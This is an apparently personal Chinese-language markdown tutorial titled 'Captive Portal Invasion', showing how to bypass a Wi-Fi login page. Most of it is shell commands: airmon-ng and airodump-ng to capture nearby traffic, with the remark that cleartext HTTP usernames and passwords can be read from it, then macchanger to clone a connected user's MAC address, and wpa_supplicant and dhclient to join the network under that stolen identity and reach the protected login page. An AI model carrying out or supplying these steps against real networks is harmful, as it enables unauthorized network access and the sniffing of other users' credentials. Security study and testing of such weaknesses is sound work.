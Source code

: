 Captive Portal Invasion
===

```
Captive Portal 是指在可以正常用網路前,，先導到一個登入網頁，
登入後才可以正常上網，通常用在需要付費上網的地方
或是飯店提供免費但需帳號登入的 Wi-Fi。不過不限於 Wi-Fi 連線
```
```
前面連接http://192.168.10.1     可正常連接
但http://192.168.10.1/login.php 會Error 404
其他需要登入的內容會被封鎖
我們可以透過偽造MAC位址去access位授權的頁面

但僅限於用HTTP傳送未加密封包
會發生在設定錯的時候
就可以透過封包監聽去抓到未加密的帳密
也就是我們常在WiFi Scan中看到的
**其他人可能可以看到您透過此網路傳送的資訊**
```
 
# Capture Packet 蒐集 MAC 
```bash
# 開啟監聽
sudo airmon-ng start wlan0

# 新建資料夾
mkdir ~/wifi/
mkdir ~/wifi/scan
sudo airodump-ng wlan0mon -w ~/wifi/scan --manufacturer --wps --band bga --channel 6
# 大概抓個3分鐘
# 可以打開封包看看http會有未加密的帳號密碼
```
```bash
# target
wifi-guest F0:9F:C2:71:22:10
# 找有連到這基地台的人
# 我們需要將我們的MAC偽裝有連到這基地台的人 ex.B0:72:BF:44:B0:49
```
# 修改成偽造 MAC 位址連接
```bash
sudo systemctl stop network-manager
sudo ip link set wlan2 down
sudo macchanger -m b0:72:bf:44:b0:49 wlan2
sudo ip link set wlan2 up
```
重新連接wifi-guest
```bash
# wpa_supplicant.conf

network={
    ssid="wifi-guest"
    key_mgmt=NONE
}
```
```bash
sudo wpa_supplicant -Dnl80211 -iwlan2 -c wpa_supplient.conf

# wpa_supplicant : 用於連接 WPA-PSK/WPA2-PSK 加密的 Wi-Fi 網絡的工具
# -D : 指定要使用的驅動程序類型
# -i : 指定要配置的無線網絡介面
# -c : 指定配置文件的路徑
#      配置文件包含要連接的無線網絡的詳細信息
#      如 SSID、密碼、加密類型等


# 出現 CTRL-EVENT-CONNECTED 代表成功連結WIFI


# Get IP
sudo dhclient wlan2 -v
```
```
拿著別人的MAC跟基地台要IP
http://192.168.10.1/login.php 可以跳過Captive Portal Invasion
```
![](../_src/Captive%20Portal%20Invasion%20-%20Wireshark.png)